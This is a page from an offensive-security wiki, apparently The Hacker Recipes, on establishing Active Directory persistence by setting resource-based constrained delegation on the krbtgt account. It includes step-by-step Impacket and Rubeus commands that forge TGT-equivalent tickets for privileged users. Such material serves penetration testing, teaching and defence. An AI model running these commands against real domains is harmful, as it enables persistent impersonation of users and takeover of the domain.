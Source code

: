 ```yaml
---
authors: ShutdownRepo, sckdev
---
```


# Delegation to KRBTGT

## Theory

The idea behind this technique is to configure [resource-based constrained delegation](../../movement/kerberos/delegations/rbcd.md) on the `krbtgt` account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the `krbtgt` account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN ([or create one](../../movement/builtins/machineaccountquota.md#create-a-computer-account), or do [SPN-less RBCD](../../movement/kerberos/delegations/rbcd.md#rbcd-on-spn-less-users)).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user. 

Since a TGT is just a Service Ticket for the `KRBTGT` service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

An example of the abuse goes as follows :

1. Configure RBCD delegation on the `krbtgt` account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work (or, see [SPN-less RBCD](../../movement/kerberos/delegations/rbcd.md#rbcd-on-spn-less-users)). This controlled account will be called "ControlledAccountWithSPN".
2. Perform a full [S4U](../../movement/kerberos/delegations/) attack to obtain a Service Ticket for the `krbtgt` service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the `KRBTGT` service, which basically means the ticket can be used as a TGT for the TargetedAccount.
3. [Pass-the-ticket](../../movement/kerberos/ptt.md) to use the Service-Ticket-that-is-in-fact-a-TGT, act as the target -privileged- user, and authenticate to remote resources.

## Practice

::: tabs

=== UNIX-like

Every step of this attack can be achieved using one of the following scripts from [Impacket](https://github.com/fortra/impacket) (Python), such as rbcd.py and getST.py.


```bash
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

# Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
```



=== Windows

Every step of this attack can be achieved using Rubeus and the Set-ADUser command.


```powershell
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

# Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt
```


:::


## Resources

[https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence)

[https://skyblue.team/posts/delegate-krbtgt/](https://skyblue.team/posts/delegate-krbtgt/)


[rbcd.md](../../movement/kerberos/delegations/rbcd.md)

